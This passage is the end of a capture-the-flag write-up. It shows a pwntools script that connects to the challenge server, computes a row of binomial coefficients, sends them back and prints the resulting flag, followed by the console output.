	for i in range(param1+1):
		d.append(D(param1,i))
	return d
conn=remote('51.38.37.81',4003)
a=int(conn.recvline().decode())
print(a)
d=checking(a)
print(len(d))
for i in range(a+1):
	print(d[i])
	conn.sendline(str(d[i]).encode())
print(conn.recvall())
```

And the output
```
[+] Opening connection to 51.38.37.81 on port 4003: Done
18
19
1
18
153
816
3060
8568
18564
31824
43758
48620
43758
31824
18564
8568
3060
816
153
18
1
[+] Receiving all data: Done (28B)
[*] Closed connection to 51.38.37.81 port 4003
b'CTF_0N3_ST3p_t0TH3eND9874382'
```
>But the output depend on the gen_magic result

Finally our flag is printed : `CTF_0N3_ST3p_t0TH3eND9874382`
